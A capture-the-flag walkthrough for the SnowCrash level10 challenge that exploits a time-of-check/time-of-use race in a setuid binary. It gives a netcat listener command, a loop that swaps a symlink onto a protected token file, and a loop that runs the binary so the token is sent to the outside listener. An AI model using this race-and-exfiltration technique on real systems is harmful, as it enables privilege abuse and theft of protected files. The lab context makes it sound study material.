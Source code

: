 level10@SnowCrash:~$ ls -laRh
-rwsr-sr-x+ 1 flag10  level10  11K Mar  5  2016 level10
-rw-------  1 flag10  flag10    26 Mar  5  2016 token


level10@SnowCrash:~$ ./level10 hey hello
You don't have access to hey

level10@SnowCrash:~$ echo "Hello World" > /tmp/test.txt
level10@SnowCrash:~$ ./level10 /tmp/test.txt hey
Connecting to hey:6969 .. Unable to connect to host hey

strings ./level10 hey helo
socket
connect
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
[...]
strings: 'hey': No such file
strings: 'helo': No such file

level10@SnowCrash:~$ strace ./level10 hey helo
access("hey", R_OK)                     = -1 ENOENT (No such file or directory)
write(1, "You don't have access to hey\n", 29You don't have access to hey
) = 29

1. launch a server to listen to port 6969 (with nc ?)
2. create a file with permission for the access check with symlink on an other full perm file, and change the symlink before the opens so it opens the token instead using flag10's permissions 
3. get content from nc listener


1. On a terminal outside the VM
nc -klvnp 6969 -s 10.24.109.3

(get [ip] from `ip a` enp0[...])
we have a server listening on port 6969, and that doesn't close at first received content, thanks to the -k option


2. on the terminal inside the VM
$ $(while true; do ln -sf /tmp/permfile /tmp/symfile; ln -sf $(pwd)/token /tmp/symfile; done)&

This will swap the symbolic link between /tmp/coucou which has all rights and the token file
($ to make it a background job so we still have our terminal available)


while true; do ./level10 /tmp/symfile 10.24.109.3; sleep 0.3; done
and this one spams every 0.3 second the execution of level10 hoping to make it at the right time where the access check is done on /tmp/coucou and the open on /tmp/token
